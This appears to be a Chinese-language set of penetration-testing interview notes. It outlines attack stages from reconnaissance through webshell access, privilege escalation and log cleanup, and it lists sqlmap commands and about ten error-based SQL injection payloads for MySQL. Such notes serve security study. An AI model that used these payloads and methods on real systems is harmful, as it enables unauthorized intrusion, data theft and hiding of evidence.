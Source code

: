## 渗透的步骤
### 信息收集
1. 获取域名whois信息，获取注册者邮箱姓名电话等。
2. 查询服务器旁站以及子域名站点，因为主站一般都比较难，所以先看看旁站有没有通用性的cms或者是其他漏洞
3. 查看服务器操作系统版本，web中间件，看看是否存在已知的漏洞，如IIS，Apache,Nginx的解析漏洞
4. 查看IP，进行IP地址端口扫描，对响应的端口进行漏洞探测，比如rsync，心脏出血，mysql，ftp，ssh弱口令等。
5. 扫描网站目录结构，看看是否可以遍历目录或者敏感信息泄漏，比如php探针。
6. Google Hack，进一步探测网站信息，后台，敏感文件。

### 漏洞扫描
检测漏洞，如XSS，CSRF，SQL注入，代码执行，命令执行，越权访问，目录读取，任意文集读取，下载，文件包含，远程命令执行，弱口令，上传，编辑器漏洞，暴力破解。

### 漏洞利用
利用以上的方式拿到webshell获知其他权限。

### 权限提升
提权服务器，比如Windows下mysql的udf提权，serv-u提权，Windows低版本的漏洞，比如iis6，pr，巴西烤肉，Linux脏牛漏洞，Linux内核地版本漏洞提权，linux下的mysql system提取以及orcale低权限提权

### 日志清理

### 总结报告及修复方案

## sqlmap，怎么对一个注入点注入？
1. 如果是GET型，直接使用`sqlmap -u http://www.example.com?id=1`
2. 如果是POST型，使用`sqlmap -u http://www.example.com --data=id=1`
3. 如果是COOKIE，X-Forwarded-For等，使用burpsuite抓包，注入处用`*`号替换，放到文件里，然后使用`sqlmap -r 文件地址`进行注入。

## nmap，扫描的几种方式？

## sql注入的几种类型？
union注入、bool注入、报错注入、延时注入、多语句执行注入、宽字节注入

## 报错注入的函数有哪些？
1. extractvalue,`extractvalue(1,concat(0x7e,version(),0x7e))`
2. floor报错
3. updatexml,`updatexml(1,concat(0x7e,version(),0x7e),1)`
4. geometrycollection,`geometrycollection()select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));`
5. multipoint(),`select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));`
6. polygon(),`select * from test where id=1 and polygon((select * from(select * from(select user())a)b));`
7. multipolygon,`select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));`
8. linestring(),`select * from test where id=1 and linestring((select * from(select * from(select user())a)b));`
9. multilinestring(),`select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));` 
10. exp(),`select * from test where id=1 and exp(~(select * from(select user())a));`

